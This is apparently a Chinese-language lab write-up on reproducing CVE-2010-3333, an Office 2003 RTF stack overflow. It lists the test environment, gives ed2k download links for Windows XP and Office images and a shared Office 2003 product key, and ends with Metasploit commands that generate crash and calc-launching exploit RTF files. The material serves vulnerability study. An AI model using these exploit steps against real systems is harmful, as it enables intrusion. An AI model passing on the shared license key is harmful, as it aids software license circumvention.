 # cve-2010-3333 Office RTF栈溢出漏洞复现

## 测试环境

|            | 推荐环境                | 版本                      |
| ---------- | ----------------------- | ------------------------- |
| 操作系统   | Windows XP Professional | Service Pack 3 (x86)      |
| 漏洞软件   | Office                  | 2003 Service Pack 3 (x86) |
| 虚拟机     | VMware                  | 16.2.3                    |
| 调试器     | OllyDBG                 | 2.0.1-32位                |
| 反汇编工具 | IDA Pro                 | 6.8                       |

影响范围：

Microsoft Office XP SP3, Office 2003 SP3, Office 2007 SP2, Office 2010, Office 2004 and 2008 for Mac, Office for Mac 2011

## 环境搭建

https://msdn.itellyou.cn/

Windows XP Professional with Service Pack 3 (x86)

```
ed2k://|file|zh-hans_windows_xp_professional_with_service_pack_3_x86_cd_x14-80404.iso|630239232|CD0900AFA058ACB6345761969CBCBFF4|/
```

需要先安装office标准版在利用补丁升级到sp3

Office Standard Edition 2003 (Simplified Chinese)

```
ed2k://|file|sc_office_2003_std.iso|429031424|DB59D0F8CC31EF72CC15D675FC9B7C34|/
```

Office 2003 Service Pack 3 (x86)

```
ed2k://|file|zh-Hans_office_2003_service_pack_3_x86.exe|142028200|93157828F4CDA043AD266EC492599111|/
```

**office2003通用密钥序列号**

J2MV9-JYYQ6-JM44K-QMYTH-8RB2W

## 漏洞复现

```shell
Microsoft Office 2003 SP3 English on Windows XP SP3 English
1、
msf > search cve-2010-3333
msf > use 0
msf > info
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set target 6
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set FILENAME CVE_2010_3333_crash.rtf
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > exploit
2、
msf > search cve-2010-3333
msf > use 0
msf > info
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set target 2
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set FILENAME CVE_2010_3333_calc.rtf
```